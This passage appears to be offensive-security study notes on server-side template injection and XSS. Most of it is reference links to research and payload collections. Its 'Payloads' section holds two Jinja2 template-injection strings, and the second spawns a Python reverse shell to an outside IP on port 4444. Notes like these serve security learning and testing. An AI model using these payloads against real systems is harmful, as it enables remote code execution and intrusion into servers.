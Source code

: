 - Server-Side Template Injection (Twig, FreeMaker, Smaarty, Jade): <https://portswigger.net/research/server-side-template-injection>
  - <https://www.youtube.com/watch?v=3cT0uE7Y87s>
- Java, Twig, Perl, Smarty, Freemaker, Jade, Codepen, Velocity, Mako, Jinja2, Jinjava: <https://medium.com/server-side-template-injection/server-side-template-injection-faf88d0c7f34>
- Junja2: <https://0day.work/jinja2-template-injection-filter-bypasses/>
- Twig v2: <http://ha.cker.info/exploitation-of-server-side-template-injection-with-craft-cms-plguin-seomatic/>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection>
- Introduction and Bypasses: <https://bowneconsultingcontent.com/pub/EH/proj/ED105.htm>
- <https://portswigger.net/research/server-side-template-injection>
- Diff Template related: Server-Side Template Injection: RCE for the modern webapp: <https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf>

- Payloads:
  - Jinja2
    ```js
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']}}{%endif%}{% endfor%}
    ```
    ```js
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"1 92.90.172.2\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'")}}{%endif%}{% endfor %}
    ```

### Client Side Attacks 

#### XSS

- Impact: <https://somdev.me/21-things-xss/>

**Tools**

- <https://github.com/s0md3v/XSStrike>

**Payloads**

- <http://htmlpurifier.org/live/smoketests/xssAttacks.xml>
- <http://heideri.ch/jso/#46>
- Fetch an external resource: <https://github.com/aurainfosec/xss_payloads/blob/master/fetch.md>
- Advance XSS Persistence With Oauth: <https://github.com/dxa4481/XSSOauthPersistence>
- <https://blog.secureideas.com/2018/12/twelve-days-of-xssmas.html>
- XSS Cheat Sheet: <https://brutelogic.com.br/blog/xss-cheat-sheet/>
- <http://www.xss-payloads.com/payloads.html>
- XSS via Image
- XSS via HTTP Response Splitting
- XSS via Cookie
- XSS via AngularJS Template Injection

#### Applet
